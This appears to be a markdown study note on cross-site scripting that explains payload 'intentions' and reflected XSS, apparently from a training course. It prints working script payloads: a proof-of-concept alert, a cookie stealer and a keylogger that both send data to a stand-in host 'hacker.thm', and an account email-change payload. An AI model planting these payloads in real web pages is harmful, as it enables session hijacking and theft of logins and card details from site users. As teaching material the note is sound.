

# Payloads
## What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

<details>
  <summary>Intentions</summary>
  
## Intentions
Here are some examples of XSS intentions.

### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


```javascript
<script>alert('XSS');</script>
```

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

</details>

# Types of XSS Attacks



## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)
